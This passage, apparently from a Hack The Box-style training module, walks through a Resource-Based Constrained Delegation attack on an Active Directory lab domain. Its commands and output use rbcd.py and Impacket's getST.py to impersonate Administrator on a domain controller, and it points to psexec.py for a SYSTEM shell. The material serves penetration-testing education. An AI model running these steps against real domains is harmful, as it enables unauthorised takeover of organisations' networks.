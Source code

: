 **Note:** We can use BloodHound.py to enumerate the domain, searching for privileges to abuse for RBCD from Linux. However, we will use the same example as the previous section.

Then, we need to add this account to the targeted computer's trust list, which is possible because `carole.holmes` has `GenericAll` `ACL` on this computer. We can use the [rbcd.py](https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py) Python script to do so.

#### Use the rbcd Python Script
```shell-session
slomkm@htb[/htb]$ python3 rbcd.py -dc-ip 10.129.205.35 -t DC01 -f HACKTHEBOX inlanefreight\\carole.holmes:Y3t4n0th3rP4ssw0rd

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra
                                                                                  
[*] Starting Resource Based Constrained Delegation Attack against DC01$
[*] Initializing LDAP connection to 10.129.205.35
[*] Using inlanefreight\carole.holmes account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `HACKTHEBOX` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `DC01`
[*] Delegation rights modified succesfully!
[*] HACKTHEBOX$ can now impersonate users on DC01$ via S4U2Proxy
```

We can ask for a TGT for the created computer account, followed by a `S4U2Self` request to get a forwardable TGS ticket, and then a `S4U2Proxy` request to get a valid TGS ticket for a specific SPN on the targeted computer.

#### Retrieve the Kerberos Ticket
```shell-session
slomkm@htb[/htb]$ getST.py -spn cifs/DC01.inlanefreight.local -impersonate Administrator -dc-ip 10.129.205.35 inlanefreight.local/HACKTHEBOX:Hackthebox123+\!

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

We then will use this TGS ticket by exporting the ticket's path to the `KRB5CCNAME` environment variable.

#### Add the Ticket to KRB5CCNAME
```shell-session
slomkm@htb[/htb]$ export KRB5CCNAME=./Administrator.ccache
```

Then you can use any impacket tool with this ticket, such as psexec.py, to get a remote shell as SYSTEM.
